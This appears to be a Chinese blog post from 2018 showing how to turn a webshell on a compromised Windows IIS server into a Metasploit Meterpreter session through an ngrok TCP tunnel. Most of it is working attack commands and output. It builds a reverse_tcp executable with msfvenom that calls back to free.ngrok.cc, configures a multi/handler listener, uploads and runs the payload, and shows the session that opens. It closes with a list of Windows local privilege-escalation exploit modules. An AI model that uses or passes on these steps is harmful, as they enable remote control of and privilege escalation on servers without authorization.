 ```yaml
---
title: "MSF Webshell 上线"
date: 2018-02-24T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['metasploit']
categories: ['Web安全']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


ngrok 内网穿透, 搭配 metasploit 实现 webshell 上线.

<!--more-->

ngrok.cc 注册账号 开通隧道 类型 tcp

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/23/1519383205.jpg)

下载客户端

我的是 linux arm

运行

`./sunny clientid xxxx`

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/23/1519383245.jpg)

下面用 msfvenom 生成后门程序

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=free.ngrok.cc LPORT=端口 -f exe > /tmp/test.exe`

端口填之前开通隧道的远程端口

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=free.ngrok.cc LPORT=端口 -f exe > test.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
```

监听

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 端口
```

端口填之前开通隧道的本地端口

0.0.0.0 是为了监听所有地址

```
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:4444
```

将生成的程序上传至服务器执行

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/23/1519383763.jpg)

成功反弹会话

```
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Sending stage (179779 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:55460) at 2018-02-23 19:01:59 +0800

meterpreter> getuid
Server username IIS APPPOOL\baidu
meterpreter> sysinfo
Computer: WIN-XXOO
OS: Windows 2012 (Build 9200)
Architecture: x64
System Language: zh_CN
Domain: WORKGROUP
Logged on Users: 5
Meterpreter: x86/windows
meterpreter>
```

本地提权 exp 在 exploit/windows/local/ 下

```
msf exploit(multi/handler) > use exploit/windows/local/ms 
use exploit/windows/local/ms10_015_kitrap0d
use exploit/windows/local/ms10_092_schelevator
use exploit/windows/local/ms11_080_afdjoinleaf
use exploit/windows/local/ms13_005_hwnd_broadcast
use exploit/windows/local/ms13_053_schlamperei
use exploit/windows/local/ms13_081_track_popup_menu
use exploit/windows/local/ms13_097_ie_registry_symlink
use exploit/windows/local/ms14_009_ie_dfsvc
use exploit/windows/local/ms14_058_track_popup_menu
use exploit/windows/local/ms14_070_tcpip_ioctl
use exploit/windows/local/ms15_004_tswbproxy
use exploit/windows/local/ms15_051_client_copy_image
use exploit/windows/local/ms15_078_atmfd_bof     
use exploit/windows/local/ms16_016_webdav
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc 
use exploit/windows/local/ms_ndproxy
```